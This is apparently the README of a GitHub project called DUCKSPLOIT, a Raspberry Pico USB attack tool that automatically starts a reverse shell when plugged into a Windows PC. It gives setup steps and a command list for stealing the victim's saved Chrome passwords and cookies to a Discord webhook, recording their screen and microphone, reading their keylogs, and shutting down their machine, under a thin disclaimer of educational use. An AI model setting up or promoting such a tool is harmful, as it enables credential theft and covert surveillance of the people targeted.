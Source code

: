 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png" alt="banner"/>



# DUCKSPLOIT
![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)

> Awsome crossbreed of batch and python on Windows ♥
 <center>
<img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465" alt="ruby" width="100"/><img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico (hacker)
1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
4. Move CircuitPython.uf2 file in the E:\ or F:\ <-- usb port (port of your pico)
   now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
5. Erase all the content of your raspberry pico and copy all the extracted repo folder into him
6. Write myip.txt and write your own IP
7. Now your raspberry pico is full configured , unplugg your pico and done!

###### setup ducksploit commands (hacker)

1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
4. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
5. wait till installation is finished
7. Ducksploit is now installed on your PC :smile:
8. Type 'ds' in the cmd
9. Wait victim's connection using 'wait' command
10. Have fun with ducksploit hacking commands (type help to get commands list)

⚠️ WHEN EXPLOIT/SCRIPT IS RUNNING, TYPE ON 'ESC' KEY ⚠️

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (victim)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
